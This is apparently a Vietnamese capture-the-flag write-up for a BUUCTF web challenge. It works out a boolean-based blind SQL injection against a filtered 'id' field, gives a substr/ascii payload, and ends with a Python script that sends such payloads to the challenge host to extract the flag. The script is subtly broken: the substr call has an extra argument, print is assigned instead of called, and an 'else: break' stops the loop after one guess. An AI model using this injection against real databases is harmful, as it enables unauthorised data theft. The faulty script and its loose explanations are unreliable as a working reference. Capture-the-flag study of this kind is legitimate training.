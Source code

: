 Challenge cho ta 1 form để sumbit, và cho biết table, column là `flag`. Sau đó mình thử sumbit đại 

```
id = 1 ---> Hello, glzjin wants a girlfriend.
id = 2 --->  Do you want to be my girlfriend?
id = 3,4,..... ---> Error Occured When Fetch Result.
```
Bởi vì bài này có tag là sql nên mình thử fuzz một vài payload.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/840a05dd-5ea1-457b-a79e-f7ee2fe53e67)

Nhưng mà bị filter gần hết. Sau đó thì mình có thử boolean

```
1=1 ---> Hello, glzjin wants a girlfriend. /// 	select * from abc where id = 1 = 1 /// select * from xxx where id = 1 = TRUE;

1=2 ---> Error Occured When Fetch Result.
1=0 --->  Do you want to be my girlfriend? /// select * from abc where id = 1 = 0 /// select * from xxx where id = 1 = FALSE;
```

Bởi vì là trong SQL 1 là TRUE và 0 là FLASE. Như vậy khi mình nhập 1=1 có nghĩa là `1=TRUE` thì trả về `id=1`, còn với 1=0 nghĩa là `id=1=Fasle` nên trả về `id=2`.Bởi vì 2 chỉ là 1 số bình thường nên khi nhập `1=2` sẽ trả về lỗi

Payload:
`1=(ascii(substr((select(flag)from(flag)),1,1))=100)`

Kết quả trả về là ` Do you want to be my girlfriend?` là FALSE nên payload này đúng.

```python
import requests
s = requests.session()
url = "http://a146b56f-b5b5-4d88-a61c-492aff01376a.node4.buuoj.cn:81/index.php"
pos = 0
flag = ''
while True:
    pos += 1
    for i in range(45,127):
        payload = f"1=(ascii(substr((select(flag)from(flag)),1,{pos},1))={i})"
        print = ("testing"+chr(i))
        r = s.post(url, data={'id':payload})
        if "glzjin" in r.text:
            flag+=chr(i)
            break
        else:
            break
        print(flag)

```
